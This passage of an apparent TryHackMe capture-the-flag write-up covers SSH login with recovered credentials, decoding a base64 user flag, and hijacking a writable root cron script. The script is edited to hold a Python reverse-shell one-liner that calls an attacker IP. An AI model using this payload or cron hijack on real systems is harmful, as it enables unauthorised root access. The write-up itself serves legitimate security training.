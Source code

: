 ```sh
password: E@syR18ght
```

- Lets use ssh with this creds
```sh
ssh elyana@10.10.42.81

-bash-4.4$ whoami
elyana
-bash-4.4$ cat user.txt
VEhNezQ5amc2NjZhbGI1ZTc2c2hydXNuNDlqZzY2NmFsYjVlNzZzaHJ1c259
```
```sh
└─$ echo "VEhNezQ5amc2NjZhbGI1ZTc2c2hydXNuNDlqZzY2NmFsYjVlNzZzaHJ1c259" | base64 -d
THM{49jg666alb5e76shrusn49jg666alb5e76shrusn}
```
**UserFlag:`THM{49jg666alb5e76shrusn49jg666alb5e76shrusn}`**

## Getting Root Flag
```sh
-bash-4.4$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
*  *    * * *   root    /var/backups/script.sh

-bash-4.4$ cat /var/backups/script.sh
#!/bin/bash

#Just a test script, might use it later to for a cron task
-bash-4.4$ nano /var/backups/script.sh
-bash-4.4$ chmod +x /var/backups/script.sh
-bash-4.4$ .//var/backups/script.sh
-bash: .//var/backups/script.sh: No such file or directory
-bash-4.4$ .//var/backups/script.sh
-bash: .//var/backups/script.sh: No such file or directory
-bash-4.4$ ./var/backups/script.sh
-bash: ./var/backups/script.sh: No such file or directory
-bash-4.4$ ./var/backups/script.sh\
> ^C
-bash-4.4$ ./var/backups/script.sh\
> ^C
-bash-4.4$ ./var/backups/script.sh
-bash: ./var/backups/script.sh: No such file or directory
-bash-4.4$ cat /var/backups/script.sh
#!/bin/bash

#Just a test script, might use it later to for a cron task
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.11.96.92",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```